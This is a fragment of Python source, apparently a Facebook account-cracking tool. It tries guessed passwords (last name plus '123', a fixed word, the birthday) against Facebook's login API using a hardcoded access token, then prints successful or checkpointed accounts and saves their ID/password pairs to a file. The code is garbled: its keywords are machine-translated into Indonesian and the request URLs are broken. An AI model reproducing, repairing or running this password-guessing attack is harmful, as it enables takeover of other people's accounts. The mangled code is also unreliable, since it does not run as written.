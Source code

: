 							cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
							cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
							cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
							cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass2 + '\ n'
							cek = buka ("out / super_cp.txt", "a")
							cek.write ("ID:" + user + "Pw:" + pass2 + "\ n")
							cek.close ()
							cekpoint.append (pengguna + pass2)
						lain:
							pass3 = b ['last_name'] + '123'
							data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&=" kata sandi + URL) & urus==&&== urson ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load (data)
							jika 'access_token' di q:
								cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
								cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
								cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
								cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass3 + '\ n'
								oks.append (pengguna + pass3)
							lain:
								jika 'www.facebook.com' di q ["error_msg"]:
									cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
									cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
									cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
									cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass3 + '\ n'
									cek = buka ("out / super_cp.txt", "a")
									cek.write ("ID:" + user + "Pw:" + pass3 + "\ n")
									cek.close ()
									cekpoint.append (pengguna + pass3)
								lain:
									pass4 = 'Bangsat'
									data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&&== password & urus==&&== urellib.urlopen) ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load (data)
									jika 'access_token' di q:
										cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
										cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
										cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
										cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass4 + '\ n'
										oks.append (pengguna + pass4)
									lain:
										jika 'www.facebook.com' di q ["error_msg"]:
											cetak '\ x1b [1; 96m [✖] \ x1b [1; 93mCEKPOINT'
											cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 93m' + b ['name']
											cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 93m' + pengguna
											cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 93m' + pass4 + '\ n'
											cek = buka ("out / super_cp.txt", "a")
											cek.write ("ID:" + user + "Pw:" + pass4 + "\ n")
											cek.close ()
											cekpoint.append (pengguna + pass4)
										lain:
											ulang tahun = b ['ulang tahun']
											pass5 = birthday.replace ('/', '')
											data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&&== password & ur=== urellib) ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load (data)
											jika 'access_token' di q:
												cetak '\ x1b [1; 96m [✓] \ x1b [1; 92mBERHASIL'
												cetak '\ x1b [1; 96m [✺] \ x1b [1; 97mNama \ x1b [1; 91m: \ x1b [1; 92m' + b ['name']
												cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mID \ x1b [1; 91m: \ x1b [1; 92m' + pengguna
												cetak '\ x1b [1; 96m [➹] \ x1b [1; 97mPassword \ x1b [1; 91m: \ x1b [1; 92m' + pass5 + '\ n'